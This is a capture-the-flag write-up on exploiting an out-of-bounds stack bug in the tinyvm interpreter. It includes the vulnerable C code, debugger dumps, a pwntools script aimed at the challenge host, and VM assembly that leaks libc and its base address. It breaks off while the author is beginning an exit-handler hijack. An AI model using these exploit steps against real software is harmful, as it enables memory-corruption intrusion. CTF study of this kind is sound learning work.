

This week was an exhilarating one as I had the opportunity to take part in the renowned [Real World CTF 5th](https://ctftime.org/event/1797) event. Among the various mind-bending challenges I encountered, one particularly intriguing puzzle called tinyvm caught my attention. This challenge involved delving into the realm of VM pwn, as we set out on a quest to successfully spawn a shell on a remote target. Here is my writeup for it.

## Description



So basically we are provided with an unmodified [source code](https://github.com/jakogut/tinyvm) (commit `10c25d83e442caf0c1fc4b0ab29a91b3805d72ec`), and we need to pwn it!
Remote accepts a text input which is our VM program written in [assembly](https://github.com/jakogut/tinyvm/blob/master/SYNTAX) (example [primes.vm](https://github.com/jakogut/tinyvm/blob/master/programs/tinyvm/primes.vm))


## Environment

To set up a local environment we need to build `tinyvm` locally. Luckily the process is really simple - just clone a repository, run `make DEBUG=yes` and you should see two binaries in `bin` directory - `tdb` (tinyvm debugger), `tvmi` (tinyvm interpreter).

```bash
➜  /media/sf_D_DRIVE/rwctf/tinyvm/bin git:(master) ✗ ./tvmi ../programs/tinyvm/primes.vm 
2
3
5
7
11
13
17
19
23
29
31
37
41
43
47
➜  /media/sf_D_DRIVE/rwctf/tinyvm/bin git:(master) ✗ 
```

## Vulnerability

VM code is quite simply and spotting it doesn't take much time. Let's check out `tvm_stack.h` file:

```c
static inline void tvm_stack_create(struct tvm_mem *mem, size_t size)
{
	mem->registers[0x7].i32_ptr =
		((int32_t *)mem->mem_space) + (size / sizeof(int32_t));
	mem->registers[0x6].i32_ptr = mem->registers[0x7].i32_ptr;
}

static inline void tvm_stack_push(struct tvm_mem *mem, int *item)
{
	mem->registers[0x6].i32_ptr -= 1;
	*mem->registers[0x6].i32_ptr = *item;
}

static inline void tvm_stack_pop(struct tvm_mem *mem, int *dest)
{
	*dest = *mem->registers[0x6].i32_ptr;
	mem->registers[0x6].i32_ptr += 1;
}
```

As we can see, there is no bound checking for stack, so we can go out of bounds and overwrite (or read) some memory.
Let's figure out how the stack memory is allocated:

```c
struct tvm_ctx *tvm_vm_create()
{
	struct tvm_ctx *vm =
		(struct tvm_ctx *)calloc(1, sizeof(struct tvm_ctx));

	if (!vm)
		return NULL;
	vm->mem = tvm_mem_create(MIN_MEMORY_SIZE);
	vm->prog = tvm_prog_create();

	if (!vm->mem || !vm->prog) {
		tvm_vm_destroy(vm);
		return NULL;
	}

	tvm_stack_create(vm->mem, MIN_STACK_SIZE);
	return vm;
}

struct tvm_mem *tvm_mem_create(size_t size)
{
	struct tvm_mem *m =
		(struct tvm_mem *)calloc(1, sizeof(struct tvm_mem));

	m->registers = calloc(NUM_REGISTERS, sizeof(union tvm_reg_u));

	m->mem_space_size = size;
	m->mem_space = (int *)calloc(size, 1);

	return m;
}
```

and MIN_STACK_SIZE is:

```c
#define MIN_STACK_SIZE (2 * 1024 * 1024) /* 2 MB */
```

so `mem_space` is a 2MB malloc'ed page which lands just before libc in memory. Great! 😄


## Exploitation

### Recon 

First, check where vm's memory is located:

```c
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x55f51be9d000     0x55f51be9e000 r--p     1000      0 /media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi
    0x55f51be9e000     0x55f51bea1000 r-xp     3000   1000 /media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi
    0x55f51bea1000     0x55f51bea2000 r--p     1000   4000 /media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi
    0x55f51bea2000     0x55f51bea3000 r--p     1000   4000 /media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi
    0x55f51bea3000     0x55f51bea4000 rw-p     1000   5000 /media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi
    0x55f51d573000     0x55f51d594000 rw-p    21000      0 [heap]
    0x7fed1f4ec000     0x7fed234f0000 rw-p  4004000      0 [anon_7fed1f4ec]
    0x7fed234f0000     0x7fed23518000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23518000     0x7fed236ad000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed236ad000     0x7fed23705000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23705000     0x7fed23709000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23709000     0x7fed2370b000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed2370b000     0x7fed23718000 rw-p     d000      0 [anon_7fed2370b]
    0x7fed2372d000     0x7fed2372f000 rw-p     2000      0 [anon_7fed2372d]
    0x7fed2372f000     0x7fed23731000 r--p     2000      0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7fed23731000     0x7fed2375b000 r-xp    2a000   2000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7fed2375b000     0x7fed23766000 r--p     b000  2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7fed23767000     0x7fed23769000 r--p     2000  37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7fed23769000     0x7fed2376b000 rw-p     2000  39000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffe2c057000     0x7ffe2c078000 rw-p    21000      0 [stack]
    0x7ffe2c0cf000     0x7ffe2c0d3000 r--p     4000      0 [vvar]
    0x7ffe2c0d3000     0x7ffe2c0d5000 r-xp     2000      0 [vdso]
0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]
pwndbg> p *vm.mem
$6 = {
  FLAGS = 0x0,
  remainder = 0x0,
  mem_space = 0x7fed1f4ec010,
  mem_space_size = 0x4000000,
  registers = 0x55f51d5732f0
}
pwndbg> vmmap 0x7fed1f4ec010
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7fed1f4ec000     0x7fed234f0000 rw-p  4004000      0 [anon_7fed1f4ec] +0x10
pwndbg> p *(vm.mem.registers+6)
$8 = {
  i32 = 0x1f6ec010,
  i32_ptr = 0x7fed1f6ec010,
  i16 = {
    h = 0xc010,
    l = 0xc010
  }
}
```

Basically we don't know anything about remote target, so it would be good to gather some information - for example which `libc` version is on remote. Once we know `libc` version we can perform an attack.


### Setup

I will use pwn template which I'm usually using in pwn challenges, so we can switch between remote and local env easily. I've added `gdb` alias for printing vm's `esp` register value and also breakpoint which allow us to inspect some things before VM starts to execute code.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

elf = context.binary = ELF('./bin/tvmi', checksec=True)
# context.terminal = ["terminator", "-u", "-e"]
context.terminal = ["remotinator", "vsplit", "-x"]


def get_conn(argv=[], *a, **kw):
	host = args.HOST or '198.11.180.84'
	port = int(args.PORT or 6666)
	if args.GDB:
		return gdb.debug([elf.path] + argv, gdbscript=gdbscript, env=env, *a, **kw)
	elif args.REMOTE:
		return remote(host, port)
	else:
		return process([elf.path] + argv, env=env, *a, **kw)

gdbscript = '''
b *tvm_vm_run
alias sp = p *(vm.mem.registers+6)
continue
'''
gdbscript = '\n'.join(line for line in gdbscript.splitlines() if line and not line.startswith('#'))
env = {}

io = get_conn(argv=['./exp.vm'])
r = lambda x: io.recv(x)
rl = lambda: io.recvline(keepends=False)
ru = lambda x: io.recvuntil(x, drop=True)
cl = lambda: io.clean(timeout=1)
s = lambda x: io.send(x)
sa = lambda x, y: io.sendafter(x, y)
sl = lambda x: io.sendline(x)
sla = lambda x, y: io.sendlineafter(x, y)
ia = lambda: io.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)


if args.REMOTE:
	exp = open("./exp.vm").read()
	sla(b'(< 4096) :', str(len(exp)).encode())
	s(exp.encode())

ia()
```


- run on local `./solve.py`
- run on local with `gdb` `./solve.py GDB`
- run on remote `./solve.py REMOTE`


### Leaking libc version

To do so, we have to move vm's `esp` register to point at the beginning of `libc` section in memory. We can quickly calculate offset using the debugger:

```c
pwndbg> vmmap libc
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7fed234f0000     0x7fed23518000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23518000     0x7fed236ad000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed236ad000     0x7fed23705000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23705000     0x7fed23709000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7fed23709000     0x7fed2370b000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6
pwndbg> sp
$9 = {
  i32 = 0x1f6ec010,
  i32_ptr = 0x7fed1f6ec010,
  i16 = {
    h = 0xc010,
    l = 0xc010
  }
}
pwndbg> dist 0x7fed234f0000 0x7fed1f6ec010
0x7fed234f0000->0x7fed1f6ec010 is -0x3e03ff0 bytes (-0x7c07fe words)
```

Let's verify that thesis by crafting simple vm program and running it on a local env:

```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp
```

results:

```c
In file: /media/sf_D_DRIVE/rwctf/tinyvm/src/tvmi.c
    8         struct tvm_ctx *vm = tvm_vm_create();
    9 
   10         if (vm != NULL && tvm_vm_interpret(vm, argv[1]) == 0)
   11                 tvm_vm_run(vm);
   12 
 ► 13         tvm_vm_destroy(vm);
   14 
   15         return 0;
   16 }
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ rsp 0x7ffd7eb5bdc0 —▸ 0x55756d9422a0 (main) ◂— push r14
01:0008│     0x7ffd7eb5bdc8 ◂— 0x0
02:0010│     0x7ffd7eb5bdd0 —▸ 0x55756d946df0 (__do_global_dtors_aux_fini_array_entry) —▸ 0x55756d942250 (__do_global_dtors_aux) ◂— endbr64 
03:0018│     0x7ffd7eb5bdd8 —▸ 0x7f5f81261d90 (__libc_start_call_main+128) ◂— mov edi, eax
04:0020│     0x7ffd7eb5bde0 ◂— 0x0
05:0028│     0x7ffd7eb5bde8 —▸ 0x55756d9422a0 (main) ◂— push r14
06:0030│     0x7ffd7eb5bdf0 ◂— 0x200000000
07:0038│     0x7ffd7eb5bdf8 —▸ 0x7ffd7eb5bee8 —▸ 0x7ffd7eb5cf9f ◂— '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0   0x55756d9422ce main+46
   f 1   0x7f5f81261d90 __libc_start_call_main+128
   f 2   0x7f5f81261e40 __libc_start_main+128
   f 3   0x55756d9421d5 _start+37
─────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> sp
$1 = {
  i32 = 0x81238000,
  i32_ptr = 0x7f5f81238000,
  i16 = {
    h = 0x8000,
    l = 0x8000
  }
}
pwndbg> vmmap 0x7f5f81238000
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7f5f81238000     0x7f5f81260000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6 +0x0
pwndbg> 
```

Stack grows towards lower addresses, so by doing `pop reg` we can leak bytes from memory (four bytes at per one `pop`). We can also print them because there is a VM opcode which will print a register value using `printf` ([tvm.h](https://github.com/jakogut/tinyvm/blob/master/include/tvm/tvm.h)). Unfortunately it prints value as a signed integer, so we need to handle that in python. VM program will have the following form:


```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp

mov ecx, 0x250000
mov esi, 0

loop:
	pop eax
	prn eax

	inc esi
	cmp esi, ecx

	jl loop
```

and python part responsible for receiving four byte integers and saving them into a binary file look like this (it is probably overcomplicated): 


```python
def tohex(val, nbits=32):
  return hex((val + (1 << nbits)) % (1 << nbits))[2:].rjust(8, '0')

def leak_libc_binary():
	ints = io.recvall(timeout=60).decode().splitlines()
	ints = list(map(int, ints))
	ints = list(map(tohex, ints))
	ints = list(map(unhex, ints))
	raw_bytes = list(map(lambda h: h[::-1], ints))
	raw_bytes = b''.join(raw_bytes)

	with open("./libc.so", "wb") as f:
		f.write(raw_bytes)

leak_libc_binary()
```

Running code on a remote target produces the following output:

```shell
[*] '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 198.11.180.84 on port 6666: Done
[+] Receiving all data: Done (4.84MB)
[*] Closed connection to 198.11.180.84 port 6666
Traceback (most recent call last):
  File "/media/sf_D_DRIVE/rwctf/tinyvm/./solve.py", line 65, in <module>
    leak_libc_binary()
  File "/media/sf_D_DRIVE/rwctf/tinyvm/./solve.py", line 56, in leak_libc_binary
    ints = list(map(int, ints))
ValueError: invalid literal for int() with base 10: '0Segmentation fault'
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ file libc.so
libc.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, stripped
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ xxd libc.so | head -1
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
```

Now we can grep for the libc version string:

```shell
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ strings libc.so | grep version
versionsort64
gnu_get_libc_version
argp_program_version
versionsort
__nptl_version
argp_program_version_hook
RPC: Incompatible versions of RPC
RPC: Program/version mismatch
<malloc version="1">
Print program version
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.1) stable release version 2.35.
Compiled by GNU CC version 11.2.0.
(PROGRAM ERROR) No version known!?
%s: %s; low version = %lu, high version = %lu
```

So the version of the remote libc is: `Ubuntu GLIBC 2.35-0ubuntu3.1`. We can download it using [libc-database](https://github.com/niklasb/libc-database) and [patch](https://github.com/NixOS/patchelf) local `tvmi` binary to use it, so can prepare our exploit on local env.


### Leaking libc address

Idea of leaking libc address is rather simple - just find a place where the libc address is stored, leak it and do an offset calculation. Bad news is that we cannot do a typical pwn workflow when library address is leaked, and then we launch the second stage of exploit - we need to do a one shot instead, so we should store libc address in vm's registers, but... they are 32bit, so we need to use two registers - one for storing higher 32bits and second for lower 32bits.

I've decided to leak some values from libc GOT. First check out what is in the GOT section:

```c
pwndbg> vmmap libc
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7f1fd9161000     0x7f1fd9189000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f1fd9189000     0x7f1fd931e000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f1fd931e000     0x7f1fd9376000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f1fd9376000     0x7f1fd937a000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f1fd937a000     0x7f1fd937c000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6

pwndbg> tele 0x7f1fd937a000 0x80
00:0000│  0x7f1fd937a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x218bc0
01:0008│  0x7f1fd937a008 (_GLOBAL_OFFSET_TABLE_+8) —▸ 0x7f1fd939e160 —▸ 0x7f1fd9161000 ◂— 0x3010102464c457f
02:0010│  0x7f1fd937a010 (_GLOBAL_OFFSET_TABLE_+16) —▸ 0x7f1fd93b5c60 (_dl_runtime_resolve_xsave) ◂— endbr64 
03:0018│  0x7f1fd937a018 (*ABS*@got.plt) —▸ 0x7f1fd921bb70 (__strnlen_sse2) ◂— endbr64 
04:0020│  0x7f1fd937a020 (*ABS*@got.plt) —▸ 0x7f1fd9215c30 (__rawmemchr_sse2) ◂— endbr64 
05:0028│  0x7f1fd937a028 (realloc@got[plt]) —▸ 0x7f1fd9189030 ◂— endbr64 
06:0030│  0x7f1fd937a030 (*ABS*@got.plt) —▸ 0x7f1fd92fc930 (__strncasecmp_avx) ◂— endbr64 
07:0038│  0x7f1fd937a038 (_dl_exception_create@got.plt) —▸ 0x7f1fd9189050 ◂— endbr64 
08:0040│  0x7f1fd937a040 (*ABS*@got.plt) —▸ 0x7f1fd9301890 (__mempcpy_avx_unaligned) ◂— endbr64 
09:0048│  0x7f1fd937a048 (*ABS*@got.plt) —▸ 0x7f1fd9302050 (__wmemset_avx2_unaligned) ◂— endbr64 
0a:0050│  0x7f1fd937a050 (calloc@got[plt]) —▸ 0x7f1fd9189080 ◂— endbr64 
0b:0058│  0x7f1fd937a058 (*ABS*@got.plt) —▸ 0x7f1fd92f9990 (__strspn_sse42) ◂— endbr64 
0c:0060│  0x7f1fd937a060 (*ABS*@got.plt) —▸ 0x7f1fd9215900 (__memchr_sse2) ◂— endbr64 
0d:0068│  0x7f1fd937a068 (*ABS*@got.plt) —▸ 0x7f1fd93018b0 (__memmove_avx_unaligned) ◂— endbr64 
0e:0070│  0x7f1fd937a070 (*ABS*@got.plt) —▸ 0x7f1fd9237b60 (__wmemchr_sse2) ◂— endbr64 
0f:0078│  0x7f1fd937a078 (*ABS*@got.plt) —▸ 0x7f1fd9300b20 (__stpcpy_avx2) ◂— endbr64 
10:0080│  0x7f1fd937a080 (*ABS*@got.plt) —▸ 0x7f1fd9304550 (__wmemcmp_sse4_1) ◂— endbr64 
11:0088│  0x7f1fd937a088 (_dl_find_dso_for_object@got.plt) —▸ 0x7f1fd91890f0 ◂— endbr64 
12:0090│  0x7f1fd937a090 (*ABS*@got.plt) —▸ 0x7f1fd93001c0 (__strncpy_avx2) ◂— endbr64 
13:0098│  0x7f1fd937a098 (*ABS*@got.plt) —▸ 0x7f1fd921b9d0 (__strlen_sse2) ◂— endbr64 
14:00a0│  0x7f1fd937a0a0 (*ABS*@got.plt) —▸ 0x7f1fd92fb2c4 (__strcasecmp_l_avx) ◂— endbr64 
15:00a8│  0x7f1fd937a0a8 (*ABS*@got.plt) —▸ 0x7f1fd92ffe30 (__strcpy_avx2) ◂— endbr64 
16:00b0│  0x7f1fd937a0b0 (*ABS*@got.plt) —▸ 0x7f1fd9238d00 (__wcschr_sse2) ◂— endbr64 
17:00b8│  0x7f1fd937a0b8 (*ABS*@got.plt) —▸ 0x7f1fd921b4c0 (__strchrnul_sse2) ◂— endbr64 
18:00c0│  0x7f1fd937a0c0 (*ABS*@got.plt) —▸ 0x7f1fd9215e40 (__memrchr_sse2) ◂— endbr64 
19:00c8│  0x7f1fd937a0c8 (_dl_deallocate_tls@got.plt) —▸ 0x7f1fd9189170 ◂— endbr64 
1a:00d0│  0x7f1fd937a0d0 (__tls_get_addr@got.plt) —▸ 0x7f1fd9189180 ◂— endbr64 
1b:00d8│  0x7f1fd937a0d8 (*ABS*@got.plt) —▸ 0x7f1fd9302050 (__wmemset_avx2_unaligned) ◂— endbr64 
1c:00e0│  0x7f1fd937a0e0 (*ABS*@got.plt) —▸ 0x7f1fd9303cb0 (__memcmp_sse4_1) ◂— endbr64 
1d:00e8│  0x7f1fd937a0e8 (*ABS*@got.plt) —▸ 0x7f1fd92fc944 (__strncasecmp_l_avx) ◂— endbr64 
1e:00f0│  0x7f1fd937a0f0 (_dl_fatal_printf@got.plt) —▸ 0x7f1fd91891c0 ◂— endbr64 
1f:00f8│  0x7f1fd937a0f8 (*ABS*@got.plt) —▸ 0x7f1fd92fedb0 (__strcat_avx2) ◂— endbr64 
20:0100│  0x7f1fd937a100 (*ABS*@got.plt) —▸ 0x7f1fd92f37a0 (__wcscpy_ssse3) ◂— endbr64 
21:0108│  0x7f1fd937a108 (*ABS*@got.plt) —▸ 0x7f1fd92f9730 (__strcspn_sse42) ◂— endbr64 
22:0110│  0x7f1fd937a110 (*ABS*@got.plt) —▸ 0x7f1fd92fb2b0 (__strcasecmp_avx) ◂— endbr64 
23:0118│  0x7f1fd937a118 (*ABS*@got.plt) —▸ 0x7f1fd92f9f00 (__strncmp_avx2) ◂— endbr64 
24:0120│  0x7f1fd937a120 (*ABS*@got.plt) —▸ 0x7f1fd9237b60 (__wmemchr_sse2) ◂— endbr64 
25:0128│  0x7f1fd937a128 (*ABS*@got.plt) —▸ 0x7f1fd9300ed0 (__stpncpy_avx2) ◂— endbr64 
26:0130│  0x7f1fd937a130 (*ABS*@got.plt) —▸ 0x7f1fd9237f00 (__wcscmp_sse2) ◂— endbr64 
27:0138│  0x7f1fd937a138 (_dl_audit_symbind_alt@got.plt) —▸ 0x7f1fd9189250 ◂— endbr64 
28:0140│  0x7f1fd937a140 (*ABS*@got.plt) —▸ 0x7f1fd93018b0 (__memmove_avx_unaligned) ◂— endbr64 
29:0148│  0x7f1fd937a148 (*ABS*@got.plt) —▸ 0x7f1fd921b6d0 (__strrchr_sse2) ◂— endbr64 
2a:0150│  0x7f1fd937a150 (*ABS*@got.plt) —▸ 0x7f1fd921b290 (__strchr_sse2) ◂— endbr64 
2b:0158│  0x7f1fd937a158 (*ABS*@got.plt) —▸ 0x7f1fd9238d00 (__wcschr_sse2) ◂— endbr64 
2c:0160│  0x7f1fd937a160 (*ABS*@got.plt) —▸ 0x7f1fd93018b0 (__memmove_avx_unaligned) ◂— endbr64 
2d:0168│  0x7f1fd937a168 (_dl_rtld_di_serinfo@got.plt) —▸ 0x7f1fd91892b0 ◂— endbr64 
2e:0170│  0x7f1fd937a170 (_dl_allocate_tls@got.plt) —▸ 0x7f1fd91892c0 ◂— endbr64 
2f:0178│  0x7f1fd937a178 (__tunable_get_val@got.plt) —▸ 0x7f1fd93b7dd0 (__tunable_get_val) ◂— endbr64 
30:0180│  0x7f1fd937a180 (*ABS*@got.plt) —▸ 0x7f1fd9239450 (__wcslen_sse4_1) ◂— endbr64 
31:0188│  0x7f1fd937a188 (*ABS*@got.plt) —▸ 0x7f1fd9302080 (__memset_avx2_unaligned) ◂— endbr64 
32:0190│  0x7f1fd937a190 (*ABS*@got.plt) —▸ 0x7f1fd9239630 (__wcsnlen_sse4_1) ◂— endbr64 
33:0198│  0x7f1fd937a198 (*ABS*@got.plt) —▸ 0x7f1fd92f9ac0 (__strcmp_avx2) ◂— endbr64 
34:01a0│  0x7f1fd937a1a0 (_dl_allocate_tls_init@got.plt) —▸ 0x7f1fd9189320 ◂— endbr64 
35:01a8│  0x7f1fd937a1a8 (__nptl_change_stack_perm@got.plt) —▸ 0x7f1fd9189330 ◂— endbr64 
36:01b0│  0x7f1fd937a1b0 (*ABS*@got.plt) —▸ 0x7f1fd92f9870 (__strpbrk_sse42) ◂— endbr64 
37:01b8│  0x7f1fd937a1b8 (_dl_audit_preinit@got.plt) —▸ 0x7f1fd93bb680 (_dl_audit_preinit) ◂— endbr64 
38:01c0│  0x7f1fd937a1c0 (*ABS*@got.plt) —▸ 0x7f1fd921bb70 (__strnlen_sse2) ◂— endbr64 
39:01c8│  0x7f1fd937a1c8 ◂— 0x0
... ↓     2 skipped
```

I've decided to go with `calloc@got[plt]` (not sure why is it here but...). Calculating offset is pretty simple:

```c
pwndbg> dist 0x7f1fd9189080 0x7f1fd9161000
0x7f1fd9189080->0x7f1fd9161000 is -0x28080 bytes (-0x5010 words)
```

We have everything to craft a vm program which will store libc base address in two 32bit registers and print it to us for verification, so we can receive it in python:

```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp

add esp, 0x219050 # GOT calloc addr
pop r08
sub r08, 0x28080  # offset to libc base
pop r09
# libc base in r09 << 32 | r08

prn r08
prn r09
```

```py
def de(v):
	return unhex(tohex(int(v.decode())))

lo = de(rl())
hi = de(rl())
libc_leak = u64((hi+lo)[::-1])
ls(f"{libc_leak:#x}")
```

Running the code on the local and remote env gives the following results, which confirms that we have proper address:

```c
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ ./solve.py REMOTE
[*] '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 198.11.180.84 on port 6666: Done
[+] 0x7f800e8f2000
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

### Crafting the exploit v1

Libc 2.35 doesn't have `__free_hook` or `__malloc_hooke`, so we cannot abuse them anymore, and we need to find other low-hanging fruits. Since we've been playing around with GOT, maybe we can use it to gain control over code execution. After some experimentation, it turned out that the `printf` function (used by the `prn` vm opcode) uses two GOT entries - `__strchrnul_sse2` and `__strncpy_avx2`, so I tried writing the address of one_gadget into them, but neither gadget worked. Each time the gadget conditions were not met and the binary crashed, so we need to pwn it as usual...


### Crafting the exploit v2

The plan now is really simple - abuse libc [exit hooks](https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/exit.c). It is a linked list of `exit_function` [structs](https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/exit.h) that will be used in `__run_exit_handlers` function which is called when program exits. Unfortunately exit pointers in `exit_function` struct are mangled in libc 2.35. See the snippets below:

```c
enum
{
  ef_free,	/* `ef_free' MUST be zero!  */
  ef_us,
  ef_on,
  ef_at,
  ef_cxa
};

struct exit_function
  {
    /* `flavour' should be of type of the `enum' above but since we need
       this element in an atomic operation we have to use `long int'.  */
    long int flavor;
    union
      {
	void (*at) (void);
	struct
	  {
	    void (*fn) (int status, void *arg);
	    void *arg;
	  } on;
	struct
	  {
	    void (*fn) (void *arg, int status);
	    void *arg;
	    void *dso_handle;
	  } cxa;
      } func;
  };

#  define PTR_MANGLE(var)	asm ("xor %%fs:%c2, %0\n"		      \
				     "rol $2*" LP_SIZE "+1, %0"		      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
#  define PTR_DEMANGLE(var)	asm ("ror $2*" LP_SIZE "+1, %0\n"	      \
				     "xor %%fs:%c2, %0"			      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))

/* Call all functions registered with `atexit' and `on_exit',
   in the reverse of the order in which they were registered
   perform stdio cleanup, and terminate program execution with STATUS.  */
void
attribute_hidden
__run_exit_handlers (int status, struct exit_function_list **listp,
		     bool run_list_atexit, bool run_dtors)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    if (run_dtors)
      __call_tls_dtors ();

  __libc_lock_lock (__exit_funcs_lock);

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (true)
    {
      struct exit_function_list *cur = *listp;

      if (cur == NULL)
	{
	  /* Exit processing complete.  We will not allow any more
	     atexit/on_exit registrations.  */
	  __exit_funcs_done = true;
	  break;
	}

      while (cur->idx > 0)
	{
	  struct exit_function *const f = &cur->fns[--cur->idx];
	  const uint64_t new_exitfn_called = __new_exitfn_called;

	  switch (f->flavor)
	    {
	      void (*atfct) (void);
	      void (*onfct) (int status, void *arg);
	      void (*cxafct) (void *arg, int status);
	      void *arg;

	    case ef_free:
	    case ef_us:
	      break;
	    case ef_on:
	      onfct = f->func.on.fn;
	      arg = f->func.on.arg;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (onfct);
#endif
	      /* Unlock the list while we call a foreign function.  */
	      __libc_lock_unlock (__exit_funcs_lock);
	      onfct (status, arg);
	      __libc_lock_lock (__exit_funcs_lock);
	      break;
	    case ef_at:
	      atfct = f->func.at;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (atfct);
#endif
	      /* Unlock the list while we call a foreign function.  */
	      __libc_lock_unlock (__exit_funcs_lock);
	      atfct ();
	      __libc_lock_lock (__exit_funcs_lock);
	      break;
	    case ef_cxa:
	      /* To avoid dlclose/exit race calling cxafct twice (BZ 22180),
		 we must mark this function as ef_free.  */
	      f->flavor = ef_free;
	      cxafct = f->func.cxa.fn;
	      arg = f->func.cxa.arg;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (cxafct);
#endif
	      /* Unlock the list while we call a foreign function.  */
	      __libc_lock_unlock (__exit_funcs_lock);
	      cxafct (arg, status);
	      __libc_lock_lock (__exit_funcs_lock);
	      break;
	    }

	  if (__glibc_unlikely (new_exitfn_called != __new_exitfn_called))
	    /* The last exit function, or another thread, has registered
	       more exit functions.  Start the loop over.  */
            continue;
	}

      *listp = cur->next;
      if (*listp != NULL)
	/* Don't free the last element in the chain, this is the statically
	   allocate element.  */
	free (cur);
    }

  __libc_lock_unlock (__exit_funcs_lock);

  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());

  _exit (status);
}


void
exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true, true);
}
```

`PTR_DEMANGLE` and `PTR_MANGLE` macros are responsible for mangling pointers and effectively translate to:

```asm
// PTR_MANGLE
xor    reg,QWORD PTR fs:0x30
rol    reg,0x11
call   reg


// PTR_DEMANGLE
ror    reg,0x11
xor    reg,QWORD PTR fs:0x30
call   reg
```

They utilize random secret value located at `fs:[0x30]`. We can look it up using the gdb:

```c
pwndbg> p $fs_base 
$1 = 0x7f4a9f284740
